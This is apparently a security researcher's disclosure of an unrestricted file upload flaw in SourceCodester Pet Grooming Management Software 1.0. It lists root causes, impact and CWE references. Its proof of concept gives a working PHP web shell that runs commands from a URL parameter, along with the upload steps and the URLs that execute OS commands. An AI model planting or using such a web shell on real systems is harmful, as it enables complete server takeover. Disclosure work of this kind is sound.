


# Unrestricted File Upload Leading to Remote Code Execution (RCE) in Sourcecodester Pet Grooming Management Software 

- **Product Name:**The SourceCodester Pet Grooming Management Software 1.0
- **Vendor:** SourceCodester
- **Product Page:**
  https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

------

## Summary

The SourceCodester **Pet Grooming Management Software** contains an **unrestricted file upload vulnerability** in the **user profile picture upload functionality**.

A **low-privileged authenticated user** can upload a **malicious PHP file** disguised as an image. The uploaded file is stored inside a **web-accessible directory without sanitization or execution restrictions**, allowing direct access and **remote command execution**.

This results in **full compromise of the application and underlying server**.

------

## Affected Component

**User Panel → Profile → Update Profile Picture**

The application allows users to upload a profile image but fails to apply **any security controls** on the uploaded file.

### Vulnerability Root Causes

- No file extension whitelist
- No MIME type validation
- No server-side content inspection
- User-supplied filename is trusted
- Upload directory allows PHP execution
- No `.htaccess` / server hardening
- File stored in publicly accessible path

------

## Proof of Concept (PoC)

### Step 1: Create a Malicious PHP File

Create a file named `shell.php`:

```
<?php
$cmd = $_GET['cmd'] ?? '';
echo "<pre>";
system($cmd);
echo "</pre>";
?>
```

------

### Step 2: Upload Shell via User Profile

1. Register or login as a **normal user**
2. Navigate to **Profile → Update Profile Picture**



1. Upload `shell.php`
2. Submit the form

📌 The application **accepts the PHP file without validation**

------

### Step 3: Access the Uploaded Web Shell

After upload, the file is accessible at a predictable, web-accessible location such as:

```
https://192.168.136.1/pet/pet_grooming/assets/uploadImage/Profile/shell.php
```

------

### Step 4: Execute OS Commands

```
https://192.168.136.1/pet/pet_grooming/assets/uploadImage/Profile/shell.php?cmd=dir
```

### Successful Command Execution

The server executes OS commands and returns output, confirming **Remote Code Execution**.



### Result

✔️ The server executes arbitrary OS commands
 ✔️ **Remote Code Execution is achieved**

------

## Impact

An attacker can:

- Execute arbitrary system commands
- Read application configuration files
- Access database credentials
- Modify or delete application data
- Upload persistent backdoors
- Pivot to other services on the server
- Fully compromise the hosting environment

🚨 **This vulnerability leads to complete server takeover**

## References

- **CWE-434**: Unrestricted Upload of File with Dangerous Type
- **OWASP Top 10 – A03: Injection**
- **OWASP Unrestricted File Upload**
- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

------

## Discovered By

**Mo Asim** (aka **Asim Qazi**)
 Security Researcher

- GitHub: `@Asim-Qazi`
- LinkedIn: https://www.linkedin.com/in/masimqazi
